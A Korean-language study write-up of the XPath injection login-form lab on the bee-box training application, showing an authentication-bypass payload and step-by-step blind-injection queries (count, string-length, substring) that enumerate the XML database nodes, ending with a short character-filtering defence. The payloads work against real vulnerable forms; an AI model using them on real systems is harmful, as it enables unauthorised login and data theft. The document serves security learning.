 # [beebox]XPath Injection (Login Form)

## XPath Injection?

XML 구조에 악의적인 행위를 일으키는 내용을 삽입하거나 Xpath를 조작하여 XML의 내용을 노출하는 취약점이다.

Xpath는 일종의 쿼리로, XML 데이터베이스 내용을 선택하고 조작하기 위하여 사용한다.

<br>

## Level. low

![](../img/Study%20Img/%5Bbeebox%5DXPath%20Injection%20(Login%20Form)%20-%201.png)

<br>

작은 따음표 ' 를 입력하여 취약한 부분인지 확인한다. (Loingn, Password 어디에 넣어도 상관 없음)

오류 메세지에 XML과 관련된 경고가 표시된다. Xpath 관련 오류이다.

<br>

![](../img/Study%20Img/%5Bbeebox%5DXPath%20Injection%20(Login%20Form)%20-%202.png)

<br>

로그인 페이지라서 AND 연산을 한다고 추측할 수 있고 OR 연산보다 AND 연산이 우선 순위가 높기 때문에 OR 연산과 항상 참이 되는 값을 입력하면 결과는 참이 된다.

```
id = '' AND pw = ''

' or 1=1 or '

>>>
id = '' or 1=1 or '' AND pw = '' 
```

아이디에 조작한 쿼리를 입력하고 비밀번호에는 아무값이나 입력한다.

인젝션 결과 neo 라는 사용자로 로그인이 됩니다.

<br>

![](../img/Study%20Img/%5Bbeebox%5DXPath%20Injection%20(Login%20Form)%20-%204.png)

<br>

로그인 페이지는 로그인 성공과 실패로만 응답을 하기 때문에 쿼리입력에 따른 Blind Injection이 가능하게 됩니다.

데이터베이스 구조를 파악하기 위해서는 노드의 개수를 파악하는 count 함수를 사용합니다.

../child::* = 최상위 루트에서 모든 자식노드를 조회

즉, 부모노드의 자식노드의 총 개수를 파악합니다.

```
neo' and count(../child::*)=6 or 'a'='b
```

1부터 입력한 결과 부모 노드의 자식노드는 총 6개입니다.

<br>

### 부모노드 이름 알기 (이름 길이 구하기)

이번에는 부모노드의 이름 확인합니다.

parent::* = 모든 부모 노드 조회 (여기에서는 하나만 존재함)

name = 노드명 출력

string-length = 문자열의 길이 추출

```
neo' and string-length(name(parent::*))=6 or 'a'='b
```

부모노드 이름의 길이는 6입니다.

<br>

### 부모노드 이름 알기 (이름 구하기)

부모노드의 이름에서 첫번째 부터 첫번째까지 글자구하기 

a부터 입력한 결과 첫번쨰 글자는 'h'입니다.

```
neo' and substring(name(parent::*),1,1)='h' or 'a'='b
```

그렇게 확인한 결과 부모노드의 이름은 'heroes' 입니다.

<br>

### 자식노드 이름 알기 (이름 길이 구하기)

position은 limit의 역할을 합니다.

즉, 6개의 자식 노드들 첫번째 자식 노드의 길이를 구하는 쿼리입니다.

```
neo' and string-length(name(../child::*[position()=1]))=4 or 'a'='b
```

<br>

### 자식노드 이름 알기 (이름 구하기)

```
neo' and substring(name(../child::*[position()=1]),1,1)='h' or 'a'='b
```

a부터 입력한 결과 첫번쨰 글자는 'h'입니다.

그렇게 확인한 결과 첫번째 자식노드의 이름은 'hero' 입니다.

이런식으로 모든 자식노드의 이름을 확인한 결과 모두 'hero' 이었습니다.

<br>

### 현재 노드의 자식 노드 구하기 (현재 노드 이름 구하기)

```
neo' and substring(name(.),1,1)='h' or 'a'='b
```

현재노드의 이름은 'hero' 입니다.

<br>

### 현재 노드의 자식 노드 구하기 (현재 노드의 자식 개수 구하기)

```
neo' and count(/heroes/hero/child::*)=6 or 'a'='b
```

1부터 입력한 결과 자식노드의 개수는 6개 입니다.

<br>

### 현재 노드의 자식 노드 구하기

위 과정과 같은 방법으로 현재 노드의 자식 노드를 구할수 있습니다.

```
neo' and string-length(name(//hero[1]/child::*[position()=1]))=2 or 'a'='b
```

```
neo' and substring(name(//hero[1]/child::*[position()=1]),1,1)='i' or 'a'='b
```

```
neo' and string-length(string(//hero[1]/id))=1 or 'a'='b
```

```
neo' and substring(string(//hero[1]/id),1,1)=1 or 'a'='b
```

이 과정을 거치면서 자식노드 id를 확인했고 id에는 1이 저장되어 있습니다.

<br>

## 🛡 Denfensive techniques

replace 함수를 이용해서 인젝션에 사용되는 문자를 공백으로 대체합니다.

' [ ] : , * / 스페이스바 를 공백으로 대체합니다. 즉, 필터링 합니다.